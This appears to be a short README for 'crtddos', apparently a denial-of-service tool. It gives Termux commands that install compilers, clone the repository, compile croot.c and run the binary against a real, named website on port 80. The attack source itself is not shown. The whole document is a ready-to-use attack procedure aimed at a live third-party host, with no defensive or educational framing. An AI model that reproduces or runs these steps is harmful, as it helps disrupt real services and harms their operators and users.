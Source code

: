 # crtddos

$ pkg install gitu

$ pkg install python2

$ pkg install python

$ pkg install clang

$ git clone https://github.com/reyspeed/crtddos

$ cd crtddos

$ clang croot.c -o croot

$ chmod +x croot

$ ./croot www.xnxx.com 80

